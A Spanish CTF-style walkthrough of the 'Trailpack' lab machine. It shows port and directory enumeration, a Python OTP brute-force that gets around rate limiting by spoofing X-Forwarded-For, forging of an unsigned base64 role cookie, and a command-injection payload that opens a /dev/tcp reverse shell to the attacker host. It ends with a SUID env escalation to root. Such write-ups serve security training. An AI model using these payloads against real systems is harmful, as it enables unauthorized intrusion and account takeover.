

## Table of contents

## Enumeración

La máquina Trailpack tiene la ip **172.17.0.2**

### Descubrimiento de Puertos

Vamos a empezar enumerando todos los puertos abiertos de la máquina, así como los servicios y las versiones que se están ejecutando en ellos mediante la herramienta **nmap**.

```bash
nmap -sS -p- --open -sCV --min-rate 5000 -n -Pn 172.17.0.2

Nmap scan report for 172.17.0.2
Host is up (0.000014s latency).
Not shown: 65534 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
8000/tcp open  http    Uvicorn
|_http-title: TrailPack \xE2\x80\x94 Mochilas de monta\xC3\xB1a, senderismo y viaje
|_http-server-header: uvicorn
MAC Address: C6:87:85:64:7F:70 (Unknown)
```

### Puerto 8000 (Web)

En este puerto se está ejecutando un servicio web con **Uvicorn** lo que nos indica que probablemente el backend esté montado en **python**.



Parece ser una web de compra de mochilas para rutas de senderismo. Vamos a enumerar subdirectorios utilizando la herramienta de **gobuster**

```bash
gobuster dir -u "http://172.17.0.2:8000" -w /usr/share/wordlists/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -x py,html,txt,js
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2:8000
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Extensions:              py,html,txt,js
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
login                (Status: 200) [Size: 11078]
register             (Status: 200) [Size: 13322]
logout               (Status: 303) [Size: 0] [--> /]
dashboard            (Status: 307) [Size: 0] [--> /login]
accounting           (Status: 307) [Size: 0] [--> /login]
```

Vemos que dos directorios nos aplican un redirect al login, por lo tanto vamos a registrarnos y a entrar al panel.

Nos creamos una cuenta en **/register** con un usuario **test** y un dni **11111111A** e iniciamos sesión con ellos.



Al entrar nos pide un **otp** (**One Time Password**) de unos 4 dígitos.



Si intentamos introducir un código cualquiera nos dice **Código incorrecto. Intentos restantes: 2**, parece que tenemos 3 intentos. Si los agotamos se nos bloquea la verificación del otp durante unos 55 segundos y una vez terminados obtenemos otros 3 intentos.



Es decir, si seguimos esta lógica deberíamos de hacer 3 intentos, esperar durante unos 55 segundos y volver a realizar 3 intentos, así hasta que se averiguara el **otp**, esto nos podría llevar un buen rato por lo que vamos a buscar una alternativa.

Si probamos una nueva cookie de sesión con cada intento se sigue mantiniendo la misma lógica de bloqueo, por lo que volver a inicar sesión no nos vale.

## Explotación

Vamos a interceptar con **burpsuite** la petición y probar **headers** para ver su comportamiento.

Si usamos el header **X-Forwarded-For: 127.0.0.1**



Y ahora si usamos el mismo header pero con otra ip



Observamos que el número de intentos no ha variado.

Por lo que usando el header **X-Forwarded-For** le decimos al backend desde que **ip** estamos mandando la petición, el backend no está implementado correctamente por lo que confía en ese header para validar la ip y por consiguiente, para determinar el número de intentos.

Además, no verifica que la ip sea válida, por lo que podemos enviar un 127.0.0.1000 y no pasará nada.

Por lo tanto vamos a abusar de ese header para saltarnos la restricción de intentos mediante un script en python y averiguar el otp.

```python
import requests

url="http://172.17.0.2:8000/verify-mfa"

for i in range(0,10000):
    headers={
        "Cookie": "session_id=4e35bd918c539c41e8e9fefe1c0491d0750ae68c8475c37659428bf1567f3529",
        "Content-Type" :"application/x-www-form-urlencoded",
        "X-Forwarded-For" : f'127.0.0.{i}'
    }

    pin=f'{i:04d}'

    data="pin="+ pin
    
    res = requests.post(url=url, headers=headers, data=data)
    
    if not "Código incorrecto." in res.text:
        print("OTP--> " + str(pin))
        break
```

Lo ejecutamos y obtenemos el **otp** --> **8230**

Como el script está mandando las peticiones, al recargar la página ya accederemos al **dashboard**.



Si revisamos el código fuente del **dashboard** encontramos varias cosas interesantes.

Las dos primeras son referentes a una cookie de sesión.

```html
<!-- Link de administración: visible solo si rol === admin en la API -->
          <a id="admin-panel-link" href="/accounting"
             class="hidden items-center gap-2.5 px-3 py-2 rounded-xl text-red-700
                    hover:bg-red-50 text-sm transition-colors font-medium mt-1 border-t border-stone-100 pt-2">
            <svg class="w-4 h-4" fill="none" stroke="currentColor" viewBox="0 0 24 24">
              <path stroke-linecap="round" stroke-linejoin="round" stroke-width="2"
                    d="M10.325 4.317c.426-1.756 2.924-1.756 3.35 0a1.724 1.724 0 002.573 1.066c1.543-.94 3.31.826 2.37 2.37a1.724 1.724 0 001.065 2.572c1.756.426 1.756 2.924 0 3.35a1.724 1.724 0 00-1.066 2.573c.94 1.543-.826 3.31-2.37 2.37a1.724 1.724 0 00-2.572 1.065c-.426 1.756-2.924 1.756-3.35 0a1.724 1.724 0 00-2.573-1.066c-1.543.94-3.31-.826-2.37-2.37a1.724 1.724 0 00-1.065-2.572c-1.756-.426-1.756-2.924 0-3.35a1.724 1.724 0 001.066-2.573c-.94-1.543.826-3.31 2.37-2.37.996.608 2.296.07 2.572-1.065z"/>
              <path stroke-linecap="round" stroke-linejoin="round" stroke-width="2"
                    d="M15 12a3 3 0 11-6 0 3 3 0 016 0z"/>
            </svg>
            Administración
          </a>
```

```html
<script>
  fetch('/api/me')
    .then(r => r.json())
    .then(data => {
      // Actualizar nombre mostrado
      const el = document.getElementById('display-name');
      if (el && data.user) el.textContent = data.user;

      // Escribir rol en cookie (se propaga al backend para /accounting)
      const payload = { user: data.user, role: data.role, email: data.email };
      document.cookie = 'user_info=' + btoa(JSON.stringify(payload)) + '; path=/; SameSite=Lax';

      // Mostrar enlace de admin solo si rol es admin (validación frontend)
      if (data.role === 'admin') {
        const link = document.getElementById('admin-panel-link');
        if (link) link.classList.replace('hidden', 'flex');
      }
    })
    .catch(() => {});
</script>
```

Por lo que nos dice ahí, la cookie **user_info** muestra información del usuario y no está firmada, por lo tanto podemos decodificarla ya que es **base64**.

Además, si el role de esta cookie es **admin** nos permite el acceso al directorio **accounting**, asi que vamos a hacerlo.

Copiamos la cookie **user_info** y la decodificamos

```bash
echo eyJ1c2VyIjoidGVzdCIsInJvbGUiOiJ1c2VyIiwiZW1haWwiOiJ0ZXN0QHRlc3QuZXMifQ== | base64 -d

{"user":"test","role":"user","email":"test@test.es"}
```

Tenemos la información de nuestro usuario, ahora le modificamos el role.

```bash
echo '{"user":"test","role":"admin","email":"test@test.es"}' | base64

eyJ1c2VyIjoidGVzdCIsInJvbGUiOiJhZG1pbiIsImVtYWlsIjoidGVzdEB0ZXN0LmVzIn0K
```

Sustituimos la anterior cookie de **user_info** por esta nueva y accedemos a **/accounting**



## Acceso al Servidor
### Balutron

Bien esa parte está terminada, volvemos al código fuente para ver la otra parte.

```html
<!-- Quejas / Soporte (VULN-4: Command Injection) -->
      <div class="bg-white rounded-2xl border border-stone-200 p-5">
        <h2 class="font-semibold text-stone-800 mb-1">Atención al cliente</h2>
        <p class="text-stone-500 text-sm mb-4">
          ¿Tienes algún problema con tu pedido o producto?
          Indícanos el número de pedido y una breve descripción.
        </p>
```

Según se nos dice el apartado de **quejas** es vulnerable a **Command Injection**, por lo que vamos a interceptar su petición con **burpsuite** e ir probando.



Vemos como se tramita la petición por **POST** y nos muestra la queja que nosotros hemos enviado.

Si enviamos **''|bash+-c+whoami** conseguimos que nos ejecute el comando.

**NOTA**: Son dos comillas simples antes del pipe.




Así que nos ponemos en escucha con **netcat**

```bash
nc -nlvp 443
```

Y nos mandamos una reverse shell

```bash
quejas=''|bash+-c+'bash+-i+>%26/dev/tcp/172.17.0.1/443+0>%261'
```

Entramos como **baluton** y realizamos el tratamiento de la **TTY**

## Escalada de Privilegios
### Root

Buscamos archivos con permisos **SUID**

```bash
balutron@00c7c227776a:~$ find / -perm -4000 2>/dev/null

/usr/bin/mount
/usr/bin/env
/usr/bin/su
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/umount
```

Podemos abusar de **env** para convertirnos en el usuario **root**

```bash
balutron@00c7c227776a:~$ /usr/bin/env bash -p
bash-5.2# whoami
root
```